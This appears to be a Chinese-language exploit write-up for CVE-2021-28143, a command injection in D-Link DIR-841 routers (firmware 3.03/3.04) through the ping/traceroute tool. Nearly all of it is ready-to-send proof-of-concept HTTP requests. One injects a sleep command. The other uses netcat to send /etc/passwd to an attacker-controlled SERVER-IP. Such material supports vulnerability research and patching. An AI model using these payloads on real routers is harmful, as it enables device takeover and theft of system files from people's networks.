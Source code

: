 # D-Link DIR-841 命令注入漏洞 CVE-2021-28143

## 漏洞描述

D-Link DIR-841 3.03和3.04 存在经过身份验证的命令注入，通过“系统工具”（ping/ping6/traceroute）命令注入，可导致攻击者进行完全控制设备。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2021-28143
- https://github.com/vitorespf/Advisories/blob/master/DLINK-DIR-841-command-injection.txt

## 漏洞复现

poc：

```
POST /jsonrpc HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Digest username="admin", realm="domain", nonce="4784226", uri="/jsonrpc", response="84799b55020cf2c53e28214e3d60b899", qop=auth, nc=00000035, cnonce="bPzBB3mcvSb51Ijx"
Content-Length: 156
Origin: IP
Connection: close
Referer: http://ip-address:9821/admin/index.html
Cookie: user_ip=0.0.0.0; device_mode=router; user_login=admin; device-session-id=<session>

{"jsonrpc":"2.0","method":"write","params":{"id":166,"data":{"host":"'127.0.0.1 & sleep 5'","count":1,"is_ipv6":false,"max_ttl":30,"nqueries":2,"waittime":3},"save":true},"id":757}
```

Exfiltrating files：

```
POST /jsonrpc HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Digest username="admin", realm="domain", nonce="4784226", uri="/jsonrpc", response="84799b55020cf2c53e28214e3d60b899", qop=auth, nc=00000035, cnonce="bPzBB3mcvSb51Ijx"
Content-Length: 156
Origin: IP
Connection: close
Referer: http://ip-address:9821/admin/index.html
Cookie: user_ip=0.0.0.0; device_mode=router; user_login=admin; device-session-id=<session>

{"jsonrpc":"2.0","method":"write","params":{"id":166,"data":{"host":"'127.0.0.1 & nc SERVER-IP 1234 < /etc/passwd'","count":1,"is_ipv6":false,"max_ttl":30,"nqueries":2,"waittime":3},"save":true},"id":757}
```


